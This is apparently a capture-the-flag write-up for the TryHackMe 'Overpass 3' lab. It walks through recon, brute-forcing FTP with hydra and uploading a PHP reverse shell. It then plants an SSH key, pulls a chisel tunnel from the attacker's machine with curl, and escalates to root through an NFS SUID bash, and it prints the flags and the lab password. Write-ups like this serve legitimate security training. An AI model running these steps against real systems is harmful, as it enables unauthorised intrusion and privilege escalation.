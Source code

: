 # TryHackMe [Overpass 3 - Hosting](https://tryhackme.com/room/overpass3hosting)
### References
* Alexander, D. (2021, January 18). Overpass 3 TryHackMe Writeup - Darren Alexander - Medium. Medium; Medium. https://darrenerawan.medium.com/overpass3-tryhackme-writeup-106fc1d65dde
* Shishir Subedi. (2021, January 14). Overpass 3 TryHackMe Writeup. Shishir’s Blog. https://shishirsubedi.com.np/thm/overpass3/
## Reconnaissance
### `nmap`
* The server runs:
  * FTP on port 21
  * SSH on port 22
  * HTTP on port 80
```bash
$  nmap -sV -sC <MACHINE_IP> 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-01 16:16 AEST
Nmap scan report for <MACHINE_IP>
Host is up (0.28s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
|_  256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.35 seconds
```
### `gobuster`
* The server responds to `/backups`:
```bash
$ gobuster dir -u http://<MACHINE_IP>/ -w $(pwd)/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<MACHINE_IP>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/applegamer22/Documents/CTFs/TryHackMe/Overpass/Part3/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/01 16:22:59 Starting gobuster in directory enumeration mode
===============================================================
/backups              (Status: 301) [Size: 234] [--> http://<MACHINE_IP>/backups/]
```
## Web Flag
1. Get the `backup.zip` from `http://<MACHINE_IP>/backups`
```bash
$ unzip backup.zip
Archive:  backup.zip
 extracting: CustomerDetails.xlsx.gpg
  inflating: priv.key
```
2. Use `priv.key` to decrypt the spreadsheet:
```
$ gpg --import priv.key
gpg: key C9AE71AB3180BC08: public key "Paradox <paradox@overpass.thm>" imported
gpg: key C9AE71AB3180BC08: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
$ gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx
gpg: encrypted with 2048-bit RSA key, ID 9E86A1C63FB96335, created 2020-11-08
      "Paradox <paradox@overpass.thm>"

```
3. The spreadsheet contains credentials, we can use `awk` to extract them from each column of the spreadsheet and use `hydra` to check which pair of credentials authenticate with the FTP server:
```bash
$ libreoffice --headless --convert-to csv CustomerDetails.xlsx
$ awk -F ',' 'NR > 1 {print $2}' CustomerDetails.csv > users
$ awk -F ',' 'NR > 1 {print $3}' CustomerDetails.csv > passwords
$ hydra -L users -P passwords ftp://<MACHINE_IP> 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-01 16:47:05
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ftp://<MACHINE_IP>:21/
[21][ftp] host: <MACHINE_IP>   login: paradox   password: ShibesAreGreat123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-01 16:47:10
```
4. Use username `paradox` and password `ShibesAreGreat123` to access the FTP server and upload a reverse shell with the IP address of your OpenVPN connection:
```bash
$ ftp <MACHINE_IP>
Connected to <MACHINE_IP>.
220 (vsFTPd 3.0.3)
Name (<MACHINE_IP>:applegamer22): paradox
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    3 48       48             94 Nov 17 23:54 .
drwxrwxrwx    3 48       48             94 Nov 17 23:54 ..
drwxr-xr-x    2 48       48             24 Nov 08 21:25 backups
-rw-r--r--    1 0        0           65591 Nov 17 20:42 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17 20:42 index.html
-rw-r--r--    1 0        0             576 Nov 17 20:42 main.css
-rw-r--r--    1 0        0            2511 Nov 17 20:42 overpass.svg
226 Directory send OK.
ftp> put php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5490 bytes sent in 2.5e-05 seconds (209 Mbytes/s)
ftp> dir -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    3 48       48            123 May 01 06:49 .
drwxrwxrwx    3 48       48            123 May 01 06:49 ..
drwxr-xr-x    2 48       48             24 Nov 08 21:25 backups
-rw-r--r--    1 0        0           65591 Nov 17 20:42 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17 20:42 index.html
-rw-r--r--    1 0        0             576 Nov 17 20:42 main.css
-rw-r--r--    1 0        0            2511 Nov 17 20:42 overpass.svg
-rw-r--r--    1 1001     1001         5490 May 01 06:49 php-reverse-shell.php
226 Directory send OK.
ftp>
```
5. Use `nc` to listen to reverse shell traffic from the port your set in the `php-reverse-shell.php` file and get a stable shell. After that, list all users with a `bash` shell.
```bash
sh-4.4$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$ cat /etc/passwd | grep -i bash
root:x:0:0:root:/root:/bin/bash
james:x:1000:1000:James:/home/james:/bin/bash
paradox:x:1001:1001::/home/paradox:/bin/bash
```
6. Switch to the `paradox` user with the same password has described in the spreadsheet, and generate an SSH public key (with `ssh-keygen -f paradox`) to access it more easily:
```bash
bash-4.4$ su paradox
su paradox
Password: ShibesAreGreat123
[paradox@localhost /]$ cd
[paradox@localhost ~]$ echo '<SSH_public_key>' > .ssh/authorized_keys
```
7. Find the web flag:
```bash
$ ssh -i paradox paradox@<MACHINE_IP> 
[paradox@localhost ~]$ find / -name *.flag 2>/dev/null
/usr/share/httpd/web.flag
[paradox@localhost ~]$ cat /usr/share/httpd/web.flag
thm{0ae72f7870c3687129f7a824194be09d}
```

**Flag**: `thm{0ae72f7870c3687129f7a824194be09d}`
## User Flag
1. Get `chisel` from GitHub and start a web server with `sudo python -m http.server 80`
2. Start a `chisel` server on your machine:
```bash
$ chmod +x chisel
$ ./chisel server --reverse --port 1337
```
3. Download `chisel` to the server, and connect to your machine;
```
[paradox@localhost ~]$ curl http://<OPENVPN_IP>/chisel -o chisel
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 8144k  100 8144k    0     0  1103k      0  0:00:07  0:00:07 --:--:-- 1415k 
[paradox@localhost ~]$ chmod +x chisel 
[paradox@localhost ~]$ ./chisel client <OPENVPN_IP>:1337 R:2049:127.0.0.1:2049
```
4. Mount the NFS directory:
```
$ mkdir mount
$ sudo mount -t nfs localhost:/ mount/
```
5. Obtain `user.flag`:
```bash
$ cd mount
$ ls
user.flag
$ cat user.flag 
thm{3693fc86661faa21f16ac9508a43e1ae}
```
## Root Flag
1. Use `mount/.ssh/id_rsa` to access the server as `james`:
```bash
$ ssh -i .ssh/id_rsa james@<MACHINE_IP>
[james@localhost ~]$ cp /bin/bash bash
```
2. On your machine, change the SUID permissions on the copied `bash` binary on the NFS mount:
```bash
$ sudo chown root:root mount/bash
$ chmod +s mount/bash
$ sudo chmod +s mount/bash
```
3. On the server, escalate privileges:
```bash
[james@localhost ~]$ ./bash -p
bash-4.4# cat /root/root.flag
thm{a4f6adb70371a4bceb32988417456c44}
```